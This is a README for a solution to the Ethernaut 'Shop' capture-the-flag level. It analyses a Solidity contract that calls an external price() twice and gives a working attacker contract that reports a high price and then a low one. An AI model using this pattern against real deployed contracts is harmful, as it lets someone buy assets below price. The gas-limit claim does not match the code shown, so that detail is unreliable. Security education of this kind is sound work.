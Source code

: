# 🏪 Ethernaut Level 21: Shop Challenge

This is a solution project for the [Ethernaut](https://ethernaut.openzeppelin.com/) Level 21 "Shop" challenge. This challenge aims to test your understanding of the interaction between Solidity view functions and state changes, and how to exploit these interactions to manipulate smart contract behavior.

## 🎯 Challenge Objective

Purchase items at a price lower than what the shop requires. The Shop contract prices items at 100, and we need to find a way to buy at a lower price.

## 📋 Contract Analysis

### Shop Contract

```solidity
contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

### Buyer Interface

```solidity
interface Buyer {
    function price() external view returns (uint256);
}
```

## 🔍 Vulnerability Analysis

### Key Vulnerabilities

1. **Interface Implementation Vulnerability**: The Shop contract relies on externally implemented `price()` functions
2. **Double Call**: The `buy()` function calls `price()` twice:
   - First time: In condition check (`_buyer.price() >= price`)
   - Second time: When updating price (`price = _buyer.price()`)
3. **State Dependency**: Between the two calls, the `isSold` state changes

### Attack Strategy

Since `price()` is a view function, it cannot modify state variables. But we can:
- Read the Shop contract's `isSold` state
- Return different prices based on the value of `isSold`
- Return high price (≥100) on first call
- Return low price (<100) on second call

## 🚀 Attack Implementation

### ShopAttacker Contract

```solidity
contract ShopAttacker {
    Shop private shop;

    constructor(address _contractAddress) {
        shop = Shop(_contractAddress);
    }

    function price() public view returns (uint256) {
        if (shop.isSold() == false) {
            return 101;  // First call: Pass price check
        }
        return 1;        // Second call: Set low price
    }

    function buy() public {
        shop.buy();
    }
}
```

## 🛠️ Usage Instructions

### Environment Requirements

- Node.js >= 16
- Hardhat
- TypeScript

### Install Dependencies

```bash
npm install
```

### Compile Contracts

```bash
npx hardhat compile
```

### Run Tests

```bash
npx hardhat test
```

### Deploy to Local Network

```bash
# Start local blockchain
npx hardhat node

# Deploy contracts
npx hardhat run scripts/deploy.ts --network localhost
```

### Using on Ethernaut Platform

1. Open browser developer tools
2. Get Shop contract instance address:
   ```javascript
   console.log(contract.address)
   ```
3. Deploy ShopAttacker contract (using the above address as parameter)
4. Call the `buy()` function to execute the attack
5. Verify results:
   ```javascript
   await contract.price() // Should display as 1
   ```

## 📚 Learning Points

### Solidity Security Issues

1. **Interface Trust Issues**: Never blindly trust external contract interface implementations
2. **View Function Security**: Even view functions can be maliciously manipulated
3. **State Check Timing**: Avoid making critical decisions based on multiple external function calls within the same function

### Gas Limit Considerations

In this challenge, the `price()` function has a 3000 gas limit, which restricts us from:
- Modifying storage state
- Executing complex computations
- Needing to use external state reading methods to implement conditional logic

### Protection Measures

1. **Implementation Checks**: Ensure all interface functions have proper implementations
2. **Single Decision**: Avoid making multiple decisions based on external call results
3. **State Locking**: Lock state changes during critical operations
4. **Reentrancy Protection**: Use reentrancy protection mechanisms

## 🔐 Improvement Suggestions

```solidity
contract SecureShop {
    uint256 public price = 100;
    bool public isSold;
    bool private _buying; // Reentrancy protection

    function buy(uint256 maxPrice) public payable {
        require(!_buying, "Reentrant call");
        require(!isSold, "Already sold");
        require(msg.value >= price, "Insufficient payment");
        require(maxPrice >= price, "Price too high");
        
        _buying = true;
        isSold = true;
        // Handle payment logic...
        _buying = false;
    }
}
```

## 📖 Related Resources

- [Ethernaut Official Website](https://ethernaut.openzeppelin.com/)
- [Solidity Documentation - View Functions](https://docs.soliditylang.org/en/latest/contracts.html#view-functions)
- [OpenZeppelin Contract Security Guide](https://docs.openzeppelin.com/contracts/)

## 🤝 Contributing

Feel free to submit Pull Requests or open Issues to improve this project.

## 📄 License

This project is licensed under the MIT License.
